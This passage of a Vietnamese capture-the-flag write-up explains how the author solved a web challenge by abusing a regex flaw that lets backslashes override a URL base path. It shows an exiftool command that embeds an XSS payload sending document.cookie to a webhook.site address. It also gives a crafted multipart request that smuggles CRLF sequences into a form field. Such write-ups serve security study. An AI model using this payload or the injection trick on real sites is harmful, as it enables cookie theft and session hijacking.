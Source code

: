 ![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/f36a166a-d968-47a7-b1fe-c765fe47fea2)

Vấn đề ta gặp phải là constructor của `Requester` sẽ chặn một vài ký tự trong URL dẫn đến ta không thể truyền full URL vào được (ta cần fetch đến route `/media/:mediaId` chứ không phải `/api/get-car/:carId`), tuy nhiên thì phần check dùng regex

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/7856dfc8-d856-496d-a349-20493cc62c8b)

Bạn có thấy điều bất thường ở đây không? Ta không thể đưa `\s` vào trong cặp dấu `[...]` được, lúc này nó sẽ hiểu là ký tự `\` và `s` chứ không phải space, vậy nghĩa là ta sẽ có thể dùng dấu `\` nữa, khi test thì mình nhận ra nếu ta gọi `new URL("\\", 'http://localhost:1337/api/get-car/');` thì lúc này URL sẽ thành `http://localhost:1337/`, nghĩa là base path đã bị override thành công, lúc này ta có thể truyền `\\media\\<media_id>` để mediaparser fetch đến media ta chuẩn bị sẵn, trước đó thì ta sẽ cài payload vào file jpg bằng exiftool

```
exiftool -ImageDescription='<img src=x onerror="window.location=`https://webhook.site/cec28ede-90d8-41a4-9ef6-4f811d83e750/?c=${document.cookie}`" />' Sample-jpg-image-50kb.jpg
```

Tạo fave:

```
POST /api/new-car HTTP/2
Host: grandprixheaven-web.2024.ctfcompetition.com
Content-Length: 52177
Cache-Control: max-age=0
Origin: http://localhost:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIxVOFGMKmjxYaR62
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:1337/new-fave
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundaryIxVOFGMKmjxYaR62
Content-Disposition: form-data; name="year"

2004
------WebKitFormBoundaryIxVOFGMKmjxYaR62
Content-Disposition: form-data; name="make"

Ferrari
------WebKitFormBoundaryIxVOFGMKmjxYaR62
Content-Disposition: form-data; name="model"

F2004
------WebKitFormBoundaryIxVOFGMKmjxYaR62
Content-Disposition: form-data; name="custom"

{
    "1": "retrieve",
    "2": "head_end",
    "3": "head_end",
    "4": "faves",
    "5": "footer",
		"6\r\n\r\nmediaparser\r\n\r\n": "apiparser"
}
------WebKitFormBoundaryIxVOFGMKmjxYaR62
Content-Disposition: form-data; name="image"; filename="Sample-jpg-image-50kb.jpg"
Content-Type: image/jpeg

...
```